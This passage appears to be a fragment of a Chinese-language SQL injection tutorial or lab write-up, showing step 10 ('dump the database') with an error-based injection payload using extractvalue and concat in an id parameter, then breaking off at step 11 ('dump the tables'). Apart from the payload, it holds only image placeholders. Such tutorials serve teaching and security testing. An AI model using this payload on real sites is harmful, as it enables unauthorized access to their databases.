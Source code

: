 ![在这里插入图片描述](img/111b1e76538c4951295ded1e7bfabdf9.png)![在这里插入图片描述](img/0beb18eefb50fb9998e3165408d69fd0.png)
10、爆库：

```
?id=1' and (extractvalue(1,concat(0x7e,database(),0x7e)))--+ 
```

![在这里插入图片描述](img/e58bdc7ca95c7b338050e0670bdfec6b.png)
11、爆表：
